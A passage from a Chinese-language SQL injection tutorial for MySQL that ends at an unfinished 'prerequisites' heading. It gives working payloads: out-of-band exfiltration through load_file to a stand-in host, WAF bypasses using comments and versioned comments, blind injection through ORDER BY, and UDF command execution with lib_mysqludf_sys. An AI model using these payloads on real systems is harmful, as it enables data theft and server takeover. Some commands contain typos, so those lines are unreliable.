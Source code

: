 ```
INSERT INTO tb1(data) VAlUES(0x4d5a90...0000);
UPDATE tb1 SET data=CONCAT(data,0xaa27...000);
[...];
SELECT data FROM tb1 INTO DUMPFILE 'path';
```
如果想要获取数据库中的数据，但是应用中的网页不能回显，那么使用外带数据可以方便的将数据发送到指定的目标，如：
```
id=1 union select load_file(concat('\\\\',version(),'.evil.site\\1.txt'))
id=1 union select load_file(concat(0x5c5c5c5c,version(),0x2e....))
```
在网络安全产品中，通常会过滤特定的SQL关键字，以拦截SQL注入攻击。我们可以通过注释符或换行符绕过简单的关键词过滤。比如，UNION SELECT被过滤了，可以尝试如下方法：
```
id=1 union/**/select password from User
id=1 union-- hello%0D%0Aselect password from User
```
它们都是通过注释符将UNION和SELECT字符分隔开，使简单的正则表达式无法匹配。
一些智能安全产品会尝试对SQL语句做语法分析，去掉其中的注释符。但是，MySQL还存在版本条件注释，比如下面的语句在mysql版本大于4.04.04时，注释符内部的值还是有效的：
`id=1 union/*!40404 select */ password from User`
如果安全产品只是简单地将注释内容去掉，就会丢掉SQL注入重要的攻击特征，导致无法命中安全检测规则，而后端的mysql中条件注释不成立，注释中的内容就会被拼接到SQL语句中，形成完整的攻击语句，就绕过了安全产品，实现了攻击。
处理注释是一件麻烦的事情，由于安全产品接收到的HTTP请求中的数据只是SQL语句片段，无法判断变量在SQL语句中是否处于引号的包围中，所以对单引号的处理会存在多种不同的结果，如：
`id=1 union-- '%0D%0Aselect password from User`
假设id变量在SQL语句中是数字，而解析引擎误认为id是字符串，单引号是用于闭合字符串的，它就不会把"-- "解析成注释，使得在拼接后的语句中，单引号被注释掉了，从而绕过了检测。 (注释符仅注释掉了单引号)
如果id变量在SQL语句中是由单引号包围的字符串，而解析引擎误认为它是数字，从而认为注释符生效，将"union"字符串当作注释符删除掉再检测，也将导致漏报。
`id=1 -- ' union%0D%0A select password from User--%20`
不仅仅是在查询条件中，在SQL语句中的ORDER BY或LIMIT参数也可能发生注入。比如，Web应用支持通过URL的order参数来控制查询结果的排序，通过如下盲注方式验证是否存在注入：
`items.php?order=sleep(2)`
还可以通过注入猜解数据库中的内容。比如，下面的order参数就可以判断mysql的大版本号是否为8
`items.php?order=if(ascii(substr(version(),1,1))=56,0,sleep(2))`
在一些少见的场景中，SELECT语句中查询的字段是由外部参数控制的，如果查询内容会展示在网页中，我们可以通过"AS别名"的方式获取数据库中的其他信息，如：
`show.php?filed=(select passwd from user) as title`
如果不显示内容在网页中，则需要通过延时盲注的方式来获取数据。
### 命令执行
在mysql中，除了通过导出Webshell间接地执行命令外，还可以利用用户自定义函数，即UDF(User-Defined Functions)，来执行命令。mysql支持从本地文件中载入一个动态链接库作为自定义函数。使用如下语法可以创建UDF：
`CREATE FUNCTION function_name RETUNRS data_type SONAME shared_library`
在允许堆叠执行的SQL注入漏洞中，或者通过SQL注入导出webshell来执行任意SQL语句时，攻击者可以先使用SELECT ... INTO DUMPFILE语句写入UDF动态链接库，再通过CREATE FUNCTION语句创建自定义函数，从而执行UDF中的代码。攻击者可以根据自己的需要将功能编译到动态链接库中，比如执行命令、反弹shell等等。lib_mysqludf_sys是一个被攻击者广泛使用的UDF，它集成了简单的执行命令功能，攻击方式如下：
```
show variables like 'plugin%';    //查找动态库路径

select 0x4d5a900030...000000 into  dumpflie 'C:\\Program Files\\mysql-8.0.27-winx64\\plugin\\lib_mysqludf_sys.dll';    //将编译好的二进制文件写入文件中

create function sys_eval returns string soname 'lib_mysqluudf_sys.dll';     //创建自定义函数

select cast(sys_eval('ver')) as char(1024)    //调用自定义函数
```
必要条件：
